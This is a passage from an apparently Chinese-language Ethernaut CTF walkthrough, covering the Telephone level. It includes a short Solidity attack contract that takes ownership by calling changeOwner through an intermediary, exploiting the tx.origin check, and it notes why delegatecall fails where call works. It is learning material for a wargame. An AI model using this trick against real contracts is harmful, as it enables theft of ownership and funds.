 注意，` delegetecall `不能用，比如` A-->B-->C `，` A `委托调用` C `，此时的` tx.origin `和` msg.sender `都是` A `；只能用` call `；

### 攻击

攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Ethernaut.sol";

contract Exp {
    Telephone public tel;

    function delegateCall(address _contract, address _wallet) public {
        tel = Telephone(_contract);
        tel.changeOwner(_wallet);
    }
}
```

![image-20250101161836851](./assets/image-20250101161836851.png)



## Level_5.Token

